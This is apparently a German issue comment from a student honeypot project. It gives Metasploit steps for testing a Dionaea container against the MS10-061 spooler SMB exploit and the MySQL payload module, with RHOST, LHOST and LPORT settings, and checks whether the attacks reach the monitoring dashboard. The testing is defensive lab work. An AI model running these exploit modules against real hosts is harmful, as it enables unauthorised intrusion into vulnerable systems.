 Bezogen auf diesen Issue: https://git.informatik.uni-hamburg.de/iss/mp-ids/issues/132

Um die da beschriebene Sicherheitslücke zu testen, muss zunächst sichergestellt
werden, dass der Dionaea-Container den Port 445 nach außen hin exposed, damit
man da angreifen kann.

Dann Metasploit installieren. Die kostenlose Basisversion reicht dazu aus, bei
Arch Linux gibt's die im AuR.

Anschließend im Verzeichnis die `msfconsole` starten. Mit
`use windows/smb/ms10_061_spoolss` kann dann der Exploit geladen
werden. Danach die Optionen setzen:
`set RPORT 445`
`set PNAME XPSPrinter`
`set RHOST 127.0.01`
`set EXITFUNC process`
`set LHOST 172.17.0.2`
`set LPORT 4444`

Dann sollte alles bereit sein und man kann mit `exploit` den Angriff starten,
der nach ein paar Sekunden auch im CIM angezeigt werden sollte.


Ein weiterer Angriff, um MySQL zu testen, geht so: Man muss hier den Port 3306
exposen, ansonsten wie auch beim anderen die `msfconsole` starten. Dann
`use windows/mysql/mysql_payload`, `set RHOST 127.0.0.1`, `set LHOST 172.17.0.2`
und dann wieder `exploit`. Da kann man auch überprüfen, ob unsere Fehlermeldung
mittlerweile angepasst wurde (im Moment kommt immer noch die Dionaea-typische
`ServerError LearnSQL!`-Meldung). Der Angriff wird auch hier von Dionaea an das
CIM gemeldet. Allerdings wird er durch genannte Fehlermeldung vorzeitig
abgebrochen, ohne, dass ein Payload eingespeist werden kann.